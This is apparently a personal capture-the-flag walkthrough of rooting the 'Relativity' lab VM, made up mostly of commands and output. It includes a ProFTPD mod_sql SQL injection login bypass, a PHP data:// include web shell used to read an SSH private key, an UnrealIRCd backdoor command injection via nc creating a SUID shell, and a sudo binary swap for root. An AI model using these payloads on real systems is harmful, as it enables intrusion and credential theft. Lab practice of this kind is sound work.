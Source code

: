 https://twitter.com/trbughunters/status/1279768631845494787
https://book.hacktricks.xyz/pentesting-web/file-inclusion
https://blog.clever-age.com/fr/2014/10/21/owasp-local-remote-file-inclusion-lfi-rfi/
https://blog.stalkr.net/2010/06/unrealircd-3281-backdoored.html

ProFTPD 1.2.8 - 1.2.9 mod_sql, php wrappers data://text/plain;base64, UnrealIRCd

# Scan

└─$ sudo nmap -p- -sV 172.16.16.128      
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-24 18:43 CET
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 0.10% done
Nmap scan report for 172.16.16.128
Host is up (0.00041s latency).
Not shown: 65532 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.2.8 - 1.2.9
22/tcp open  ssh     OpenSSH 5.9 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.23 ((Fedora))
MAC Address: 00:0C:29:6A:3B:E0 (VMware)
Service Info: Host: Relativity; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 116.09 seconds


# Exploit

<https://www.securityfocus.com/bid/33722/exploit>

## Injection SQL

    %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
    %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; -- -
    %') union select 1,1,uid,gid,homedir,shell from users; -- -


Connection au server FTP

    └─$ ftp 172.16.16.128
    Connected to 172.16.16.128.
    220 Welcome to Relativity FTP (mod_sql)
    Name (172.16.16.128:kali): %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # 
    331 Password required for %').
    Password:1  <== WHY ?
    230 User %') and 1=2 union select 1,1,uid,gid,homedir,shell from users; # logged in.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls 
    200 PORT command successful
    150 Opening ASCII mode data connection for file list
    drwxr-xr-x   3 root     root         4096 Mar  5  2013 0f756638e0737f4a0de1c53bf8937a08
    -rw-r--r--   1 root     root       235423 Mar  5  2013 artwork.jpg
    -rw-r--r--   1 root     root          130 Mar  5  2013 index.html
    226 Transfer complete.
    ftp> 


## PHP LFI

    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=definition.php
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=escher.php
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=artwork.php

    $ echo '<?php phpinfo(); ?>' | base64
    PD9waHAgcGhwaW5mbygpOyA/Pgo=
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==

    $ echo '<?php system($_GET['cmd']); ?>' | base64
    PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=
    http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=ls%20-al%20/home

    total 16
    drwxr-xr-x.  4 root  root  4096 Feb 25  2013 .
    dr-xr-xr-x. 18 root  root  4096 Feb 28  2013 ..
    drwx------.  3 jetta jetta 4096 Jul  9  2013 jetta
    drwxr-xr-x.  3 mauk  mauk  4096 Jul  9  2013 mauk



==> script en python ??

Discovery mauk rsa key

    curl 'http://172.16.16.128/0f756638e0737f4a0de1c53bf8937a08/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=cat%20/home/mauk/.ssh/id_rsa'



# Post exploit

    └─$ ssh mauk@172.16.16.128 -i key
    [mauk@Relativity ~]$ ls -al
    total 28
    drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 .
    drwxr-xr-x. 4 root root 4096 Feb 25  2013 ..
    -rw-------. 1 mauk mauk   70 Jul  9  2013 .bash_history
    -rw-r--r--. 1 mauk mauk   18 Apr 23  2012 .bash_logout
    -rw-r--r--. 1 mauk mauk  193 Apr 23  2012 .bash_profile
    -rw-r--r--. 1 mauk mauk  124 Apr 23  2012 .bashrc
    drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh
    [mauk@Relativity ~]$ cat .bash_history

    ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
    su -
    exit
    su -


    └─$ 
    [mauk@Relativity ~]$ id
    uid=1001(mauk) gid=1001(mauk) groups=1001(mauk)

    mauk@Relativity ~]$ netstat  -ntulp
    (No info could be read for "-p": geteuid()=1001 but you should be root.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:6667          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
    udp        0      0 0.0.0.0:51305           0.0.0.0:*                           -                   
    udp6       0      0 :::17375                :::*                                -  


    [mauk@Relativity ~]$ cat .bash_history 
    ssh -f root@192.168.144.228 -R 6667:127.0.0.1:6667 -N
    su -
    exit
    su -
    [mauk@Relativity ~]$ 


## Foward port 6667

    [mauk@Relativity ~]$ ssh-keygen -P "" -f key
    [mauk@Relativity ~]$ ssh -f -N kali@172.16.16.1 -R 6667:127.0.0.1:6667 -i key


Scan port 6667

    └─$ nmap -sV  127.0.0.1 -p6667      
    Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-16 09:19 CET
    Nmap scan report for localhost (127.0.0.1)
    Host is up (0.000053s latency).

    PORT     STATE SERVICE VERSION
    6667/tcp open  irc     UnrealIRCd
    Service Info: Host: relativity.localdomain

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds


Searchsploit

    searchsploit  -m linux/remote/13853.pl


Gain privileges jetta access

    $ echo "AB; cp /bin/sh /tmp/sh; chmod 4755 /tmp/sh" | nc 127.0.0.1 6667

    [mauk@Relativity ~]$ ls -al /tmp/sh
    -rwsr-xr-x 1 jetta jetta 930496 Nov 16 04:21 /tmp/sh

    [mauk@Relativity ~]$ /tmp/sh -p
    sh-4.2$ id
    uid=1001(mauk) gid=1001(mauk) euid=1002(jetta) groups=1002(jetta),1001(mauk)

Get jetta's UID 


    ```c

    void main() {
        setreuid(geteuid(), getuid());
        setregid(getegid(), getgid());
        system("/bin.bash");
    }

    ```
    sh-4.2$ gcc get.c -o get
    sh-4.2$ id
    uid=1001(mauk) gid=1001(mauk) euid=1002(jetta) groups=1002(jetta),1001(mauk)
    sh-4.2$ ./get 
    [jetta@Relativity tmp]$ id
    uid=1002(jetta) gid=1001(mauk) groups=1002(jetta),1001(mauk)

# Get root

    [jetta@Relativity ~]$ sudo -l
    Matching Defaults entries for jetta on this host:
        requiretty, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG
        LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC
        LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY PATH", env_reset

    User jetta may run the following commands on this host:
        (root) NOPASSWD: /home/jetta/auth_server/auth_server

    [jetta@Relativity ~]$ rm -fr auth_server/
    [jetta@Relativity ~]$ mkdir auth_server
    [jetta@Relativity ~]$ cp /bin/bash auth_server/auth_server
    [jetta@Relativity ~]$ sudo /home/jetta/auth_server/auth_server
    [root@Relativity jetta]# id
    uid=0(root) gid=0(root) groups=0(root)


# Secret

```php

# index.php
$blacklist_include=array("php://");
for ($i=0; $i<count($blacklist_include); $i++){
    if (strpos($_GET['page'],$blacklist_include[$i]) !== false){
        die();
    }
}
$page = $_GET['page'];
include ($page);

```